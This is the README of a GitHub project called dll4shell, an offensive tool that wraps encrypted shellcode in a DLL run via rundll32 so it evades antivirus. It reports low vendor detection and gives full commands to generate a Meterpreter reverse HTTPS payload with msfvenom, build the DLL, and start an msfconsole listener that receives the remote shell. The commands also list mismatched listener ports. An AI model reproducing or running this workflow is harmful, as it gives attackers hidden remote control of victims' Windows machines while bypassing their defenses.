 ### C++ shellcode launcher

Dll generator designed to run the shellcode via rundll32. Based on the "charlotte" tool and research mentioned in external references. Current features include:

* Using classic chain VirtualAlloc - CreateThread to execute the code in rundll32 process.
* Shellcode XOR and Cezar / Shift encryption.
* Simple python script to do the magic.

As of now, the dll created with meterpreter code is detected by 5 / 65 vendors. Although VirusTotal suggests Defender detects the payload, on the real machines it does not.

![](dll4shell.png.png)

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

### External references

[charlotte](https://github.com/9emin1/charlotte)
[Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)
